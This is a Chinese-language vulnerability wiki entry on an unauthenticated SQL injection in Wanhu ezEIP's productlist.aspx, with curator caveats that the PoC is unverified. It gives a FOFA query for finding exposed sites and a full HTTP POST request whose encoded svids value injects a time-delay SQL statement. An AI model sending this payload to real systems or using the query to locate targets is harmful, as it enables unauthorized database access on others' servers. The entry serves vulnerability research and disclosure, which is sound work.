

# 万户ezEIP productlist.aspx SQL注入

## 条目说明

- 对象与具体问题：万户ezEIP；productlist.aspx SQL注入
- 版本、配置及部署条件：未给版本；SQL Server动态执行/编码解码层
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- ezEIP不是ezOFFICE，应按独立产品实体归类
- 无代码围栏，复杂二次编码载荷缺根因/差分；在野利用无来源

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

万户ezEIP企业管理系统 productlist.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## 影响版本

万户ezEIP企业管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="ezEIP" || header="ezEIP" || body="css/css_whir.css"

POC/EXP：

```http
POST /shop/productlist.aspx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

ob=price&price=asc&svids=-1%29%3BDECLARE+%40%40proc_name+VARCHAR%28301%29%3BSet+%40%40proc_name%3DChar%28115%29%252bChar%28101%29%252bChar%28108%29%252bChar%28101%29%252bChar%2899%29%252bChar%28116%29%252bChar%2832%29%252bChar%2849%29%252bChar%2832%29%252bChar%28119%29%252bChar%28104%29%252bChar%28101%29%252bChar%28114%29%252bChar%28101%29%252bChar%2832%29%252bChar%2849%29%252bChar%2861%29%252bChar%2849%29%252bChar%2832%29%252bChar%2887%29%252bChar%2865%29%252bChar%2873%29%252bChar%2884%29%252bChar%2870%29%252bChar%2879%29%252bChar%2882%29%252bChar%2832%29%252bChar%2868%29%252bChar%2869%29%252bChar%2876%29%252bChar%2865%29%252bChar%2889%29%252bChar%2832%29%252bChar%2839%29%252bChar%2848%29%252bChar%2858%29%252bChar%2848%29%252bChar%2858%29%252bChar%2853%29%252bChar%2839%29%3BEXECUTE+%28%40%40proc_name%29%3B--a%2B
```





## 修复方案

关闭互联网暴露面或接口设置访问权限。

联系厂家及时打补丁。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
